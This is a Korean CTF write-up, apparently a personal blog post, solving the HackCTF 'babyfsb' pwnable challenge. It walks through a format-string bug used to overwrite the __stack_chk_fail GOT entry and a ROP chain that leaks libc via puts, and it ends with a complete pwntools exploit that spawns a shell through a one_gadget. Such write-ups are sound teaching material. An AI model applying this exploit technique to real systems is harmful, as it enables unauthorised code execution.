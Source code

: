 ```yaml
---
layout: post
title:  "HackCTF babyfsb write-up"
date:   2020-03-20 19:45:55
image:  hackctf_babyfsb.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled.png)

PIE는 걸려있지 않지만 이번에는 카나리가 걸려있다.

<br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%201.png)

hello 라는 문자열이 출력되고 입력할수 있는 공간이 나온다. 그 뒤 입력한 문자열이 출력되고 바로 종료가 된다.

<br>

**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%202.png)

read로 0x40 만큼 입력을 받는다. ret 을 덮을 수 없는 사이즈이다.

10라인에서 printf 를 이용해 fsb가 가능할 것으로 보인다.


<br><br>


### 2. 접근방법

---

일반적으로 fsb를 이용하면 " % $ n 등등.." 이러한 서식문자를 이용하여 특정함수의 got를 덮고, 원하는 got_overwrite를 이용하여 원하는 동작을 일으키는 식으로 문제를 풀었었다.

64bit 환경이기 때문에 %p 5개를 입력하고 그다음 서식문자부터 rsp의 값들을 leak할수 있다. 한번 상황을 봐보자.

 

- printf (" %p %p %p %p %p %p %p %p")

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%203.png)
        
        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%204.png)
        
        0x7fffffffdcc0 이 현재 ret주소를 담고있는 주소이다. 여기 ret주소를 가리키고 있는 부분이 없기 때문에 곧바로 ret 값을 변경할 수 없다. 또한 만약 어찌해서 특정 함수의 got를 덮었다고 해도 printf 함수다음 return 0 이 나오기 때문에 해당 함수를 실행시킬수 없다.

    하지만 !! 문제를 잘 보면 현재 카나리가 걸려있다. 따라서 카나리를 체크하는 함수가 어셈블리로 보면 확인가능하다.
    
             0x0000000000400711 <+107>:	mov    rcx,QWORD PTR [rbp-0x8]
           0x0000000000400715 <+111>:	xor    rcx,QWORD PTR fs:0x28
           0x000000000040071e <+120>:	je     0x400725 <main+127>
           0x0000000000400720 <+122>:	call   0x400550 <__stack_chk_fail@plt>
           0x0000000000400725 <+127>:	leave  
           0x0000000000400726 <+128>:	ret
    
    카나리 값은 rbp-0x8에 위치해 있는데, 이는 read함수로  덮을수 있다. 해당 값이 변조되면 stack_chk_fail 함수가 호출된다. 따라서 해당 함수의 got를 덮으면 된다 !

<br>

- **libc 주소 leak 시나리오**
    1. stack_chk_fail 함수의 got를 " pop rdi; ret " 가젯 주소로 덮는다.
    2. 일부로 카나리를 변조하여 해당 함수가 실행되게끔 한다.
    3. stack_chk_fail 함수가 실행되면 현재 got에 pop rdi; ret 주소로 덮혀져 있기 때문에 가젯 주소로 간다
    4. puts의 주소를 leak해야하기위해 rdi에 puts_got를 넣고 puts_plt를 넣는다.
    5. payload = %(pop rdi;ret 주소 10진수값)c %8 $ln +"AA" // align을 위해 AA두개를 넣음

        payload += stack_chk_fail_got 주소

        payload += puts_got 주소

        payload += puts_plt 주소

        payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%205.png)

<br>

   위 상황은 현재 위 시나리오의 페이로드를 보내고나서, stack_chk_fail 함수가 호출된 상태이다.

원하는대로 해당 함수의 got가 덮혀져 가젯 주소로 ret되었다. 근데, 여기서 stack을 보면 약간 이상하다. 원래대로라면 rdi에 put_got가 들어가야하는데, 현재 스택 최상단에 0x400725가 들어가있어 이 값이 rdi에 들어간다.

원하는 값인 0x601018은 스택에서 5번째에 위치해 있는 것을 볼수 있다. 따라서 위 시나리오의 페이로드를 전송하면 에러가 난다. 우리는 pop rdi ; ret 가젯을 이용하기 전에 스택을 먼저 맞추기 위해 pop pop pop pop ret; 가젯을 먼저 호출해야한다.

그래야 4번의 pop이 일어나고 우리가 넣은 값을 이용할 수 있다. 정리하면 ppppr 가젯으로 got를 덮고 그다음 pop rdi; ret를 넣은뒤 그 뒤에 put_got, put_plt를 넣어주면 된다.

<br>

**페이로드 수정 !**

- payload = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA"

    payload += stack_chk_fail_got 주소

    payload += pop rdi; ret 주소

    payload += puts_got 주소

    payload += puts_plt 주소

    payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    payload += main 주소

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%206.png)

<br>

수정된 페이로드로 디버깅을 했을때 stack_chk_fail 함수가 실행되어 ppppr 주소로 돌아갔고, ret가 실행되면 pop rdi; ret 주소로 가는 것을 확인할 수 있다. 그 이후 0x601018을 rdi에 제대로 저장할 것이다.

이렇게 하면 puts의 주소를 leak할 수 있고, 이를 이용하여 libc_base 주소를 구할 수 있다.

그다음은 다시 main으로 돌아가서 stack_chk_fail got를 one gadget주소로 덮으면 끝이다



<br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
#p=remote("ctf.j0n9hyun.xyz", 3032)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
p=process("./babyfsb",env=env)
e=ELF("./babyfsb")
libc=ELF("./libc.so.6")

one_shot_off=0x45216

gdb.attach(p)
p.recvuntil("hello\n")
pause()
payload = "%4196236c%8$ln"+"AA"+p64(0x601020)+p64(0x400793)+p64(e.got['puts'])+p64(e.plt['puts'])
payload += p64(0x4006A6) # main
payload += "C"*(0x40-len(payload))
p.send(payload)

put_addr=u64(p.recvuntil("hello\n")[-13:-7]+"\x00\x00")
libc_base=put_addr-libc.symbols['puts']
log.info(hex(libc_base))
log.info(hex(libc_base+one_shot_off))
pause()
payload2 = "%4196236c%8$ln"+"AA" + p64(0x601020)+p64(libc_base+one_shot_off)
payload2 += "C"*(0x40-len(payload2))
p.send(payload2) 
p.interactive()
```


<br><br>

### 4. 몰랐던 개념

---

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%207.png)

원샷 가젯을 실행시키면 위와 같이 4개의 one gadget offset 주소를 확인 할 수 있는데, 해당 문제에서는 맨 위의 오프셋만 정상적으로 동작하고 나머지 3개는 에러를 뿜는다.

나머지 3개가 에러를 뿜는 이유를 첨에는 몰랐는데 2번째 인자에 execve를 이용하여 쉘을 얻으려면 2,3번째 인자가 널이여야한다. 따라서 rsp+0x30, rsp+0x50, rsp+0x70 이 3개는 해당 one gadget이 호출되었을때 널이 아니여서 execve가 제대로 동작하지 않은 것이다.

첫번째 offset이 실행되기 위해서는 rax=NULL 이여야하는데 내부적으로 해당 조건이 만족되는것 같다